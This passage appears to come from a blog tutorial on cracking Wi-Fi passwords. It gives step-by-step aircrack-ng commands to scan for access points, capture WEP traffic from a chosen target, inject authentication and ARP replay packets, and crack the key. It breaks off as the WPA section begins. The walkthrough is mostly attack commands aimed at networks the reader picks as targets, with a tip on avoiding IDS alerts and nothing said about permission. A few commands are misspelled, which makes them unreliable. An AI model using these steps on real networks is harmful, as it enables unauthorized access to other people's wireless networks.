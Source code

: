 So we just kill that processes, repeat if there are more :

```bash
kill 2222
```
### Find target

Now the available access points (AP) are shown with some properties :

```bash
airodump-ng wlan0
```

## WEP (Easy)
---
To crack WEP, copy the BSSID (Mac Address) of the target AP wiht WEP as CIPHER.
### Capture the data

```bash
airodump-ng -c 10 -w dumpfile -bssid ${mac} mon0
```
Now it is listening for data. Wait for "#Data" to be high enough

{{< figure src="/images/tutorials/wifi/wifi-crack/wifi-crack2.png" alt="crack-wifi" >}} 

### Auth and cause traffic

Beware, this is not to be used on monitored networks as it can alert IDS.

```bash
airplay-ng -1 0 -a ${mac} mon0
```

ask for authentication

```bash
airplay-ng -1 1 -a ${mac} mon0
```

Cause traffic, check if data goes up. If not, the channel is wrong one : cancel and restart

```bash
airplay-ng -3 -b ${mac} mon0
```

wait for arp request

```bash
aircrack-ng dumpfile-0.cap
```

tries to crack
if it fails try next cap file

if succeeded, key is found

## WPA-WPA2-WPA3 (Medium)
---
To crack WPA, you need to enforce auth by a client
